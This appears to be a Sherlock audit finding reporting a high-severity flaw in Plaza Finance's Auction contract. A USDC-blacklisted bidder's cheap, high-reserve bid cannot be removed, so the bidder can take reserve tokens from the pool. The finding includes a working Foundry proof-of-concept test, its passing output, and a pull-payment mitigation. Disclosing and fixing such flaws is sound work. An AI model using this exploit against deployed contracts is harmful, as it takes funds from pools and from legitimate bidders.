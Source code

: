 Dry Cherry Goose

High

# Attacker betting low amount of coupon token for high amount of reserve token will force their bid to stay in the auction if they get blacklisted by couponToken

### Summary

https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L286

https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L325

In Auctions, we expect the couponToken to be USDC. USDC can blacklist users. 

If an attacker bets a low amount of USDC for a high amount of reserve token before being blacklisted by USDC, other bidders won't be able to remove this bid even when their bid should be included in the auction.

This will force the bid of the attacker to execute, allowing the attacker to abuse the auction feature to earn pool's reserveToken. 

The definite amount of token earned by the attacker differs from 2 things :

- [`Pool::poolSaleLimit`](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L176-L183) at the time the auction is created, which can be set by the admin between 90% and 100% of the pool's amount of reserve tokens.

- The bet of other users. If an attacker wants to perform this solo, they will need to buy all slots in the auction, which is costly, but ensures best rewards. If other users bet, the attacker needs to make sure the total amount of `reserveToken` bidded does not exceed the sale limit, [or the auction will not succeed](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L341-L342).

The attack is very cheap to perform since only one slot in the auction needs to be bidded for it to succeed, as shown in the PoC.

### Root Cause

USDC blacklist will prevent bids from being removed

### Internal Pre-conditions

_No response_

### External Pre-conditions

USDC needs to blacklist a user after their bid

### Attack Path

1 - An auction is created
2 - The attacker bets a high amount of reserve token
3 - The attacker gets blacklisted by USDC. From this point, the attacker's bid can not be removed from the auction
4 - When the auction ends, the attacker can withdraw their reserve token

### Impact

An attacker can abuse the auction to earn an unusually high amount of reserveToken from a low coupon token amount bet, while legit bidders will be denied their bet. Since the attacker's malicious action prevents legit bidders to earn reserve token, it is apparent to stealing funds from the pool.


### PoC

> To run this PoC, you will need to edit `test/mocks/Token.sol` in order to implement the blacklisting feature. Add the following lines in the contract :

```solidity
error SenderIsBlacklisted();
error ToIsBlacklisted();

mapping(address => bool) public isBlacklisted;

function blacklist(address user, bool _isBlacklisted) public {
    isBlacklisted[user] = _isBlacklisted;
}

function transfer(address to, uint256 value) public virtual override returns (bool) {
    if (isBlacklisted[msg.sender]) revert SenderIsBlacklisted();
    if (isBlacklisted[to]) revert ToIsBlacklisted();

    return super.transfer(to, value);
}
```

Add the following test function in the `AuctionTest` contract at `test/Auction.t.sol`.

```solidity
// forge test --mt test_usdc_blacklist_cant_remove_bid -vvv
function test_usdc_blacklist_cant_remove_bid() public {
    address attacker = makeAddr("attacker");

    // attacker only needs min bettable amount of USDC for the attack
    // totalBuyCouponAmount / maxBids = 1 slotSize = min bet
    uint256 slotSize = auction.totalBuyCouponAmount() / auction.maxBids();
    usdc.mint(attacker, slotSize);

    vm.startPrank(attacker);
    usdc.approve(address(auction), slotSize);
    // The attacker bids 1000 USDC of usdc to get 1000 weth
    uint256 attackerBidIndex = auction.bid(1000 ether, slotSize);
    vm.stopPrank();

    // At some time before their bid gets removed from the auction, the attacker gets blacklisted
    usdc.blacklist(attacker, true);

    uint256 bidToTotalBuyCouponAmount = auction.totalBuyCouponAmount() - slotSize;

    vm.startPrank(bidder);
    usdc.mint(bidder, bidToTotalBuyCouponAmount + slotSize);
    usdc.approve(address(auction), bidToTotalBuyCouponAmount + slotSize);

    // The other bidder bids at a much less interesting rate, so this bid should not get removed later
    auction.bid(1 ether, bidToTotalBuyCouponAmount);

    // Condition for :
    //  1 - auction to succeed
    //  2 - bids to get removed
    assertEq(auction.currentCouponAmount(), auction.totalBuyCouponAmount());

    // One more bids should remove our attacker but it reverts
    vm.expectRevert(Token.ToIsBlacklisted.selector);
    auction.bid(1 ether, slotSize);
    vm.stopPrank();

    vm.warp(block.timestamp + 15 days);
    auction.endAuction();

    // After the auction ends, the attacker claims his prize
    uint256 attackerBalanceBefore = Token(auction.sellReserveToken()).balanceOf(attacker);
    vm.prank(attacker);
    auction.claimBid(attackerBidIndex);
    uint256 attackerBalanceAfter = Token(auction.sellReserveToken()).balanceOf(attacker);

    // The attacker successfully earns his high bid of ether
    assertEq(1000 ether, attackerBalanceAfter - attackerBalanceBefore);
}
```

The output of running the test shows the attack works :

```console
$ forge test --mt test_usdc_blacklist_cant_remove_bid -vvv
[⠰] Compiling...
[⠊] Compiling 6 files with Solc 0.8.27
[⠒] Solc 0.8.27 finished in 23.47s
Compiler run successful!

Ran 1 test for test/Auction.t.sol:AuctionTest
[PASS] test_usdc_blacklist_cant_remove_bid() (gas: 793798)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 26.59ms (4.44ms CPU time)

Ran 1 test suite in 43.95ms (26.59ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

Bids that need to be replaced should not be paid back at the same time. 

Instead, create a variable containing the amount of couponToken to pay back to a user and create a separate function to withdraw these.
